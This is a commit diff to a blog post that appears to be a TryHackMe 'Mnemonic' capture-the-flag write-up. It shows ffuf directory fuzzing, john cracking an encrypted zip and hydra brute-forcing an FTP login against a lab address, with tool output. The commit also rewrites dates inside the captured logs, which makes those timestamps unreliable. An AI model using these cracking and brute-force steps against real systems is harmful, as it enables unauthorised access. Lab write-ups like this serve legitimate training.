

Before and after one commit to darksec1337/darksec1337.github.io, a Jekyll site: the page built from _posts/2020-10-01-mnemonics-writeup.md, in a window 1280 px wide and 900 px high, scrolled down 2988 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2020-10-01-mnemonics-writeup.md

````diff
--- a/_posts/2020-10-01-mnemonics-writeup.md
+++ b/_posts/2020-10-01-mnemonics-writeup.md
@@ -1,7 +1,7 @@
 ---
 layout: post
 title: Mnemonic
-date: 2020-10-1 00:00:01 +5:30
+date: 2020-12-19 00:00:01 +5:30
 categories: [TryHackMe, Medium]
 tags: [osint, dirbust, code-analysis] # add tag
 image: /assets/img/mnemonic/mnem.png
@@ -58,7 +58,7 @@ so we have robots.txt it directs us to webmasters.
 For moving forward we have a way we can fuzz dir further
 
 ```bash
-argenestel@parrot  ~/Desktop/tryhackme/mnemonic  ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.148.195/webmasters/FUZZ
+root@kali  ~/Desktop/tryhackme/mnemonic  ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.148.195/webmasters/FUZZ
 
         /'___\  /'___\           /'___\
        /\ \__/ /\ \__/  __  __  /\ \__/
@@ -86,7 +86,7 @@ backups                 [Status: 301, Size: 327, Words: 20, Lines: 10]
 
 So let's enum more.
 
- root@parrot  ~/Desktop/tryhackme/mnemonic  ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.148.195/webmasters/backups/FUZZ.zip
+ root@kali  ~/Desktop/tryhackme/mnemonic  ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.148.195/webmasters/backups/FUZZ.zip
 
         /'___\  /'___\           /'___\
        /\ \__/ /\ \__/  __  __  /\ \__/
@@ -120,13 +120,13 @@ Ahh the zip seems encrypted.
 So john have script which converts zip to john hash format and john can crack that.
 
 ```bash
-root@parrot  ~/Desktop/tryhackme/mnemonic  john --wordlist=/usr/share/wordlists/rockyou.txt john.hash
+root@kali  ~/Desktop/tryhackme/mnemonic  john --wordlist=/usr/share/wordlists/rockyou.txt john.hash
 Using default input encoding: UTF-8
 Loaded 1 password hash (PKZIP [32/64])
 Will run 4 OpenMP threads
 Press 'q' or Ctrl-C to abort, almost any other key for status
 <redacted>         (backups.zip/backups/note.txt)
-1g 0:00:00:02 DONE (2020-09-28 16:02) 0.4115g/s 5872Kp/s 5872Kc/s 5872KC/s 0050cent..0012093760
+1g 0:00:00:02 DONE (2020-12-19 16:02) 0.4115g/s 5872Kp/s 5872Kc/s 5872KC/s 0050cent..0012093760
 Use the "--show" option to display all of the cracked passwords reliably
 Session completed
 ```
@@ -135,10 +135,10 @@ In zip we can see user info and get username.
 Now Bruteforce the ftp pass.
 
 ```bash
-root@parrot  ~/Desktop/tryhackme/mnemonic/backups  hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt ftp://10.10.148.195
+root@kali  ~/Desktop/tryhackme/mnemonic/backups  hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt ftp://10.10.148.195
 Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
 
-Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-28 16:20:23
+Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-12-19 16:20:23
 [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
 [DATA] attacking ftp://10.10.148.195:21/
 [STATUS] 241.00 tries/min, 241 tries in 00:01h, 14344158 to do in 991:60h, 16 active
````
